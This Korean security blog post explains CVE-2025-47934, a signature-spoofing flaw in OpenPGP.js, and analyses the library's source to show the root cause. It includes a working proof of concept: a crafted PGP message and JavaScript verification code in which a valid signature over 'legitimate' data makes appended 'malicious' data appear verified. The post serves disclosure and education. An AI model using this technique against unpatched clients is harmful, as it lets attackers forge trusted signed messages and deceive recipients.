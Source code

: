 
---
title: "[하루한줄] CVE-2025-47934: OpenPGP.js 서명 스푸핑 취약점"
author: OUYA77
tags: [PGP, OpenPGP.js, sign, spoofing, CVE-2025-47934, OUYA77]
categories: [1day1line]
date: 2025-06-12 17:20:00
cc: true
index_img: /img/1day1line.png
---

## URL

- [https://codeanlabs.com/blog/research/cve-2025-47934-spoofing-openpgp-js-signatures/](https://codeanlabs.com/blog/research/cve-2025-47934-spoofing-openpgp-js-signatures/)

## Target

- OpenPGP.js  < v5.11.3
- OpenPGP.js  < v6.1.1

## Explain

OpenPGP.js는 OpenPGP 표준(RFC 9580)을 구현한 자바스크립트 라이브러리로, 암호화된 이메일이나 서명된 Git 커밋 등에 사용됩니다. 이 표준은 메시지 암호화, 서명, 키 관리 기능을 제공합니다. OpenPGP 메시지는 패킷의 시퀀스로 구성되며, 각 패킷은 표준에 정의된 바이너리 프로토콜을 따릅니다. OpenPGP.js는 Mailvelope 및 Proton Mail과 같은 여러 웹 기반 이메일 클라이언트에서 사용됩니다.

PGP 메시지는 여러 패킷의 시퀀스로 구성되며, 각 패킷은 메시지, 서명, 압축 데이터 등 다양한 정보를 담을 수 있습니다. 이 구조적 유연성 때문에 메시지 내부에 불필요한 패킷이 추가될 수 있습니다.

### **root cause & PoC**

OpenPGP.js의 패킷 처리 파이프라인에 존재하는 설계 결함으로 인해, 서명 검증 과정에서 "실제로 서명된 데이터"와 "최종 반환되는 데이터" 간의 불일치가 발생할 수 있습니다. 이는 내부의 **비동기 스트림 파싱 구조와 검증 로직의 미흡한 분리 처리**에 기인합니다.

```jsx
const openpgp = require('openpgp');

(async () => {
    // Generated using:
    //   cat \
    //     <(echo "legitimate" | gpg -s -z0) \
    //     <(printf "\xc8\x12\0\xcb\x0f\x62\0\0\0\0\0malicious") \
    //   | base64
    let armoredMessage = `
-----BEGIN PGP MESSAGE-----

kA0DAAoW1Fu2hl5UcsoByxFiAGhBNptsZWdpdGltYXRlCoh1BAAWCgAdFiEEXSzQbblMQiJ8GaYN
1Fu2hl5UcsoFAmhBNpsACgkQ1Fu2hl5UcsqE0QD/bsWYHJrrrK8RM8VgB4Z3K64zWfp49BOi+x0s
9VJKyRoBALJdQhGzPwCERCANPR+KdX5ZdrX54ZpY9mriFG6O4hsFyBIAyw9iAAAAAABtYWxpY2lv
dXM=
-----END PGP MESSAGE-----`;

    // public key of thomas@codean.io
    const publicKeyArmored = `
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEZSAfBhYJKwYBBAHaRw8BAQdAfdgd2yxL+pYN91ENyp/VZVdWXLjYDONG47jM
4dDZDMG0IFRob21hcyBSaW5zbWEgPHRob21hc0Bjb2RlYW4uaW8+iI8EExYIADcW
IQRdLNBtuUxCInwZpg3UW7aGXlRyygUCZSAfBgUJBaOagAIbAwQLCQgHBRUICQoL
BRYCAwEAAAoJENRbtoZeVHLKpvIBANiaDeLPyaQyHkuzB8T6ZqvfJi4dXNlsqT2F
dlUUip4ZAQDSAljghQC9jAQu8I8yMrQJd4SXD1EMH+NLNNYCDEZCC7g4BGUgHwYS
CisGAQQBl1UBBQEBB0DOFmUm2nMIda8PzTquulLLy/bFwDtSqAiK1EBqEdvbaAMB
CAeIfgQYFggAJhYhBF0s0G25TEIifBmmDdRbtoZeVHLKBQJlIB8GBQkFo5qAAhsM
AAoJENRbtoZeVHLKCE8BAJEXE6za1G6pFpaZWKBRMlCbBDSE4rc7iEn5MpC56WtQ
AQCnVhRNYBjQ7Bo/VX1rx2+6wx84EXOFmoW80F96QmN0Bw==
=Obk+
-----END PGP PUBLIC KEY BLOCK-----`;

    const publicKey = await openpgp.readKey({ armoredKey: publicKeyArmored });
    const message = await openpgp.readMessage({ armoredMessage });
    const verificationResult = await openpgp.verify({ message, verificationKeys: publicKey });

    console.log(`Signed message data: ${verificationResult.data}`);
    const { verified, keyID } = verificationResult.signatures[0];
    try {
        await verified; // throws on invalid signature
        console.log(`Verified signature by key id ${keyID.toHex()}`);
    } catch (e) {
        throw new Error(`Signature could not be verified: ${e.message}`);
    }
})();
```

1. 스트림 파싱의 불완전성

- `openpgp.readMessage()` 함수는 메시지를 파싱할 때 가장 첫 번째 Literal Data 패킷만 읽고 반환합니다.
- 이후에 존재하는 나머지 패킷(예: 악성 데이터)은 읽지 않은 상태로 스트림(메모리)에 남게 되며, 후속 처리가 이루어지지 않습니다.
- 이는 서명 검증 로직이 이후 데이터의 존재 여부를 인지하지 못하도록 우회할 수 있는 기반을 제공합니다.

2. 검증 로직의 취약점

```jsx
  async verify(verificationKeys, date = new Date(), config = defaultConfig) {
    const msg = this.unwrapCompressed(); // [1]
    
    const literalDataList = msg.packets.filterByTag(enums.packet.literalData);
    if (literalDataList.length !== 1) {
      throw new Error('Can only verify message with one literal data packet.');
    }
    
    if (isArrayStream(msg.packets.stream)) {
      msg.packets.push(...await streamReadToEnd(msg.packets.stream, _ => _ || [])); // [2]
    }

    const onePassSigList = msg.packets.filterByTag(enums.packet.onePassSignature).reverse();
    const signatureList = msg.packets.filterByTag(enums.packet.signature);

    // ...
```

- `openpgp.verify()` 호출 시, 내부적으로 `unwrapCompressed()` 함수가 동작하여 압축된 패킷만 찾아 처리합니다( [ 1 ] ).
    - `const msg = this.unwrapCompressed();`: 이 시점에서 `this.packets`은 아직 완전하게 파싱되지 않았으므로, `unwrapCompressed()`는 `Compressed Data` 패킷을 찾지 못하고 `this` (원본 패킷 리스트)를 반환합니다. 따라서 서명 유효성 검사에 사용되는 `literalDataList`는 "legitimate" 데이터를 포함하는 `Literal Data` 패킷이 됩니다.
        
        ```jsx
         unwrapCompressed() {
            const compressed = this.packets.filterByTag(enums.packet.compressedData);
            if (compressed.length) {
              return new Message(compressed[0].packets);
            }
            return this;
          }
        ```
        
- 이때 압축되지 않은 나머지 패킷은 무시되며, 검증 대상에서 제외됩니다.
- 그러나 최종적으로 반환되는 `verificationResult.data`에는 이 **검증되지 않은 패킷의 내용도 포함**될 수 있습니다( [ 2 ]).
    - `msg.packets.push(...await streamReadToEnd(msg.packets.stream, _ => _ || []));` : 이 시점에서 서명 검증이 성공적으로 이루어진 후, 최종적으로 `verificationResult.data`에 실제 메시지 내용을 담기 위해 `streamReadToEnd()`가 호출됩니다. `streamReadToEnd()`가 호출되어 스트림에 남아 있던 모든 패킷(즉, `Signature` 패킷과 `Compressed Data` 패킷)이 `msg.packets` 배열에 추가됩니다. 이제 `msg.packets`는 완전한 공격자의 조작된 패킷 리스트를 포함하게 됩니다.
3. `result.data` 설정 시 `unwrapCompressed()` 재호출 및 악성 데이터 반환

```jsx
    ...
    if (signature) {
      result.signatures = await message.verifyDetached(signature, verificationKeys, date, config);
    } else {
      result.signatures = await message.verify(verificationKeys, date, config);
    }
    result.data = format === 'binary' ? message.getLiteralData() : message.getText();
    ...
```

서명 유효성 검사 자체는 "legitimate" 데이터에 대해 성공적으로 수행됩니다. 그러나 `openpgp.verify()`의 마지막 부분에서 `result.data`를 설정하기 위해 `message.getLiteralData()` (또는 `message.getText()`)가 호출됩니다. 이 함수 역시 `unwrapCompressed()`를 다시 호출합니다. `streamReadToEnd()` 호출로 인해 `msg.packets`가 이제 완전한 패킷 리스트를 포함하므로, `unwrapCompressed()`는 공격자가 삽입한 첫 번째 `Compressed Data` 패킷(악성 "malicious" 데이터를 포함하는)의 내용을 반환하게 됩니다.

결과적으로, OpenPGP.js는 "legitimate" 데이터에 대한 서명을 유효하다고 판단하면서도, 사용자에게는 `verificationResult.data` 또는 `message.getText()`를 통해 "malicious" 데이터를 표시하게 됩니다. 이는 유효한 서명을 가진 메시지의 내용이 공격자에 의해 임의로 조작된 것처럼 보이게 만드는 스푸핑 공격으로 이어집니다. 암호화된 메시지의 경우에도 `openpgp.decrypt()`가 동일한 검증 로직을 사용하므로, 복호화된 데이터는 공격자가 제어하는 "malicious" 페이로드로 반환되지만, 서명 검증 결과는 원본 "legitimate" 페이로드에 대해 계산되어 유효하다고 표시됩니다.

```jsx
Signed message data: malicious
Verified signature by key id d45bb6865e5472ca:
```

공격 시나리오를 간단히 요약하면 이렇게 표현할 수 있습니다.

- 공격자는 정상적인 서명 메시지(예: `"Transfer $100"`에 대한 유효 서명)를 확보한 뒤,
- 해당 메시지 뒤에 추가적으로 악의적인 패킷(예: `"Transfer $10,000"`)을 삽입하여 **하나의 메시지로 구성**합니다.
- 검증 과정에서는 정상 서명된 부분(`"Transfer $100"`)만 검증되며 서명은 "유효"로 표시됩니다.
- 그러나 최종적으로 반환되는 데이터는 **악성 패킷까지 포함한 데이터**로서, 사용자가 보기에는 **정상 서명된 것으로 오인**하게 됩니다.

즉, 공격자는 피해자의 기존 서명을 재사용해 임의의 메시지로 서명을 위조(spoof)할 수 있습니다

## Reference

- [https://github.com/openpgpjs/openpgpjs/security/advisories/GHSA-8qff-qr5q-5pr8](https://github.com/openpgpjs/openpgpjs/security/advisories/GHSA-8qff-qr5q-5pr8)